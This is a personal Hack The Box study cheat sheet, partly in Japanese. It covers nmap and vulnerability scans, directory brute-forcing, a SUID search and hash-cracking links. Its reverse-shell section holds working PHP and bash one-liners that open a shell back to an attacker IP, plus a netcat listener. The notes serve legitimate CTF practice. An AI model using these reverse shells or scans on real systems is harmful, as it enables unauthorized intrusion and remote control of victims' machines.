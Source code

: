 # HTB-Note
note about Hack The Box

<!-- TOC -->

- [HTB-Note](#htb-note)
  - [Virtual Box Setting](#virtual-box-setting)
    - [Run GuestAddictionsCD](#run-guestaddictionscd)
    - [Open VPN](#open-vpn)
  - [CheatSheet](#cheatsheet)
    - [nmap](#nmap)
      - [nmap script engine](#nmap-script-engine)
    - [MSFvenom](#msfvenom)
    - [Directory Enumlation](#directory-enumlation)
    - [Reverse Shell](#reverse-shell)
    - [Privilege escalation](#privilege-escalation)
      - [find SUID](#find-suid)
    - [PowerShell](#powershell)
    - [Password Crack](#password-crack)

<!-- /TOC -->

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatSheet

### nmap

- バージョン検出
```shell
nmap -sV rhost
```
- OS検出
```shell
nmap -O rhost
```
- OS 検出 + バージョン検出
```shell
nmap -A rhost
```
- ping 送らない
```shell
nmap -Pn rhost
```

#### nmap script engine

- Vulnerability 検出
```shell
nmap --script=vuln -p rport1,rport2 rhost
```

- DNS

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Directory Enumlation

- Gobuster options
  - [Gobuster Cheatsheet](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  - quick play
```
gobuster dir -t 100 -u targetUrl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o outfile
```

- [ffuf](https://github.com/ffuf/ffuf)
  - quick play
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u targetUrl/FUZZ
```


### Reverse Shell

- receive
```
nc -lnvp 1234
```

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
  - Direct input
```php
php -r '$sock=fsockopen("your.server.ip.address",1234);exec("/bin/bash -i <&3 >&3 2>&3");'
```

- PHP fsockopen
```php
<?php $s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");?>
```
  - Direct input
```php
php -r '$s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");'
```

- when i get "must be run from a terminal"
```python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```

### PowerShell

- whoami
```
$env:UserName
```
- 論理ドライブの一覧を表示
```
Get-PSDrive
```
- カレントドライブの移動
```
Set-Location C:
```

### Password Crack

- [Free Password Hash Cracker](https://crackstation.net/)
